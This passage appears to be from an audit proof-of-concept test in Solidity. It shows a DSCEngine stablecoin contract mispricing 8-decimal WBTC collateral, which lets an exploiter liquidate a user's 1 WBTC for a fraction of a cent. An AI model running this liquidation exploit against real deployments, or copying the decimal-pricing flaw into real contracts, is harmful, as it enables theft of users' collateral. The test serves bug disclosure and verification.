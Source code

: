 ```solidity
        assertEq(valueWeth, expectedValueWeth);

        // Similarly, the reciprocal is true.
        uint256 amountWeth = dsce.getTokenAmountFromUsd(weth, expectedValueWeth);
        assertEq(amountWeth, amountWethDeposited);

        // Now the user borrows more DSC using WBTC collateral.
        // The flawed price computation ensures that the user can't borrow much at all, but they will anyway.
        vm.startPrank(user);
        uint256 amountWbtcDeposited = 1 * 10**wbtcDecimals; // 1 WBTC
        // This is the flaw! Given WBTC's 8 decimals, this WBTC is priced at $0.000003 instead of $30,000.
        uint256 expectedValueWbtc = 30_000 * 10**wbtcDecimals; // $0.000003 != $30,000
        uint256 amountDscFromWbtc = (expectedValueWbtc * LIQUIDATION_THRESHOLD) / LIQUIDATION_PRECISION;
        ERC20DecimalsMock(wbtc).approve(address(dsce), amountWbtcDeposited);
        dsce.depositCollateralAndMintDsc(wbtc, amountWbtcDeposited, amountDscFromWbtc);
        assertEq(dsc.balanceOf(user), amountDscFromWeth + amountDscFromWbtc);
        vm.stopPrank();

        // The user's 1 WBTC is worth far too little.
        uint256 valueWbtc = dsce.getUsdValue(wbtc, amountWbtcDeposited);
        assertEq(valueWbtc, expectedValueWbtc);

        // Similarly, the reciprocal is true.
        uint256 amountWbtc = dsce.getTokenAmountFromUsd(wbtc, expectedValueWbtc);
        assertEq(amountWbtc, amountWbtcDeposited);

        // An exploiter acquires DSC to perform a liquidation (DSC could have come from the market, but we borrow it).
        vm.startPrank(exploiter);
        ERC20DecimalsMock(weth).approve(address(dsce), amountWethDeposited);
        dsce.depositCollateralAndMintDsc(weth, amountWethDeposited, amountDscFromWeth);
        assertEq(dsc.balanceOf(exploiter), amountDscFromWeth);
        vm.stopPrank();

        // Over time, the price of WBTC falls just slightly. The user is now vulnerable to liquidation.
        MockV3Aggregator(btcUsdPriceFeed).updateAnswer(int256(29_999 * 10**feedDecimals)); // $29,999
        uint256 newValueWbtc = dsce.getUsdValue(wbtc, amountWbtcDeposited);
        assertTrue(dsce.getHealthFactor(user) < MIN_HEALTH_FACTOR);

        // The exploiter liquidates the user's WBTC by paying back an "equivalent" amount of DSC.
        // The amount is actually far too low given the flawed price calculation.
        // After this, the exploiter still has plenty of DSC and all of the user's WBTC.
        // The exploiter paid ~$0.0000027 for ~$30,000 worth of WBTC.
        vm.startPrank(exploiter);
        // This comes out to about $0.0000027 (reduced from $0.000003 to account for 10% liquidation bonus)
        uint256 debtToPay = (newValueWbtc * LIQUIDATION_PRECISION) / (LIQUIDATION_PRECISION + LIQUIDATION_BONUS);
        dsc.approve(address(dsce), debtToPay);
        dsce.liquidate(wbtc, user, debtToPay);
        vm.stopPrank();
        
        // Exploiter has all of the WBTC and still lots of DSC left!
        uint256 err = 0.0001 ether; // 0.01% allowable relative error to account for rounding
        assertApproxEqRel(ERC20DecimalsMock(wbtc).balanceOf(exploiter), amountWbtcDeposited, err);
        assertApproxEqRel(dsc.balanceOf(exploiter), amountDscFromWeth, err);

        // User has no WBTC left in the `DSCEngine`.
```